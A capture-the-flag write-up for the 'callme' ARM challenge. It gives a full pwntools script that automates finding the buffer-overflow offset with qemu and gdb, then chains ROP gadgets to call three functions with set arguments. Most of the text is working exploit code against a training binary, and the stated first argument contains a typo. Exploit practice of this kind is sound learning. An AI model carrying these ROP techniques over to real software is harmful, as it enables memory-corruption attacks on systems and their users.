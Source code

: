 # Callme

## Target
call `callme_one`, `callme_two` and `callme_three` in this order with the following arguments: `0xdeaedbeef`, `0xcafebabe` and `0xd00df00d`.

## The vuln
A buffer overflow allows ROPchain creation and execution. By using `ropper` or similar tools is possible to find gadgets which allows to correctly set the arguments and call the functions `callme_one`, `callme_two` and `callme_three` in sequence.

### Warning
For this architecture, `ropper` won't find the right gadget. We suggest using `ROPgadget` for `arm` architectures

## The script
```python
from pwn import *
import subprocess
from threading import Thread

#
# Context
#

e = context.binary = ELF('callme_armv5-hf')
context.arch = 'arm'
context.bits = 32

#
# Offset
#

PORT = 1234
LIBDIR = '/usr/arm'

def qemu_thread():
    with subprocess.Popen(['/usr/bin/qemu-arm', '-L', LIBDIR, '-g', str(PORT), e.path], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE) as qemu:
        qemu.stdin.write(cyclic(0x200))
        sleep(1)
        qemu.stdin.write(b'\n')

Thread(target=qemu_thread).start()

commands = f"""set arch arm
symbol-file callme_armv5-hf
target remote :{PORT}
b *pwnme+84
c
ni
i r pc
q
"""
with open("command_file", "w") as cf:
    cf.write(commands)

with subprocess.Popen(['/usr/bin/gdb-multiarch', '--command=command_file', '--batch'], stdout=subprocess.PIPE, stderr=subprocess.PIPE) as gdb:
    gdb.wait()
    pc = gdb.stdout.read().split(b'\n')[-2].decode().split()[-1]

info(f'PC: {pc}')
offset = cyclic_find(bytes.fromhex(pc[2:]))
info(f'Offset: {offset}')

#
# ROP
#

# Alternative: use "ropper"
CALLME_ONE   = p32(e.plt["callme_one"])
CALLME_TWO   = p32(e.plt["callme_two"])
CALLME_THREE = p32(e.plt["callme_three"])
EXIT         = p32(e.plt["exit"])

# Calling convention (a0, a1, a2)
BIGPOP = p32(next(e.search(asm('pop {r0, r1, r2, lr, pc}'))))


SET_PARAMETERS  = b''
SET_PARAMETERS += p32(0xdeadbeef)
SET_PARAMETERS += p32(0xcafebabe)
SET_PARAMETERS += p32(0xd00df00d)

#
# Exploit
#

io = process(e.path)

payload =  b''
payload += b'A' * offset
payload += b'Por' # Di "Porco dio se lo stack non si allinea!"

payload += BIGPOP
payload += SET_PARAMETERS
payload += BIGPOP
payload += CALLME_ONE
payload += SET_PARAMETERS
payload += BIGPOP
payload += CALLME_TWO
payload += SET_PARAMETERS
payload += EXIT
payload += CALLME_THREE

io.sendlineafter(b'> ', payload)

info(io.recvuntil(b'}').decode())
io.close()
```